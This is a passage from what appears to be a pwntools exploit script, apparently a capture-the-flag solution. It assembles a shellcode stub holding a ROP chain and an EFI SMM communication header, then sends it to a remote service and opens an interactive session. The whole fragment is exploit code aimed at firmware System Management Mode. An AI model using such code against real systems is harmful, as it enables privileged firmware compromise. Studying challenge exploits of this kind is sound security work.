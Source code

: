 ```python

fail:
    ud2

dummy: .fill 12,1,0
protocol_guid: .long 0xc68ed8e2, 0x4cbd9dc6, 0x65db949d, 0x32c3c5ac
protocol_buff: .quad 0
buffer: .quad 0
rop_buffer: .quad 0
rop_chain: .quad {rop_chain_str}
efi_smm_comminucate_hdr:
    .long 0x9a75cf12, 0x4d102c83, 0x7535a8b5, 0xf7926554
    .quad {len(payload)}
""")

info(f"bp: {hex(rop_ret_0x6d)}")
r.sendline(sc.hex() + payload.hex())
r.sendline('done')

r.interactive()
```

